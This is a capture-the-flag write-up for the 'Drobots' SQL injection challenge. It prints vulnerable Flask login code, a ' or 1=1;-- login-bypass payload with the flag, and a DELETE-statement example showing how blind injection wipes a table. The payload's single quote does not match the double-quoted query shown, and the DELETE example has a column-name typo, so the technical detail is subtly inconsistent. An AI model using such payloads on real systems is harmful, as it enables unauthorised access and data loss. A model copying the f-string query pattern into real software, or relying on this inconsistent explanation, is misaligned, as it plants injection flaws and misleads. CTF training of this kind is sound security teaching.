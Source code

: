 # Drobots :: Easy
## Scenario

```
Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities.
Can you help pandora with this task?
```

## Solve

![](/images/drobots-source-tree.png)

This is an SQL challenge.  
It is the made to introduce the concept of SQL Injection.  

Starting the challenge we arrive at this login page:  

![](/images/drobot_login.png)

Let's take a look at the source code that handle our login request.  
This application is written using the Flask microservice framework.  

This code is located in the `database.py` file.  
```python
from colorama import Cursor
from application.util import createJWT
from flask_mysqldb import MySQL

mysql = MySQL()

def query_db(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

The login function is vulnerable to SQL injection.  
We can see on this line:  

```python
user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)
```

The `username` and `password` specified by the user is directly placed in the query.  
Since there is not sanitization, we can bypass the login.  

```sql
USERNAME: admin
PASSWORD: ' or 1=1;--
```

This allows us to log in and obtain the flag !  

```text
HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}
```

No script for this one, since it's only a single form.  
  
### Important note on the use of `' or 1=1;--`

This injection is normally not recommended, as it can cause damage when used blindly.  

For example, if the injection is in a `DELETE` statement, then we could delete every entry by using it blindly.  

```python
# Example of a query to delete a single user:
f'DELETE FROM users WHERE username="{username}"'

# After injection with ' or 1=1; --
'DELETE FROM users WHERE usernames="" or 1=1; --'

# This will cause every user to be deleted, since the OR is always true, all entries will be matched.
```

In our case though, we have the source code and we know that it is not harmful.  



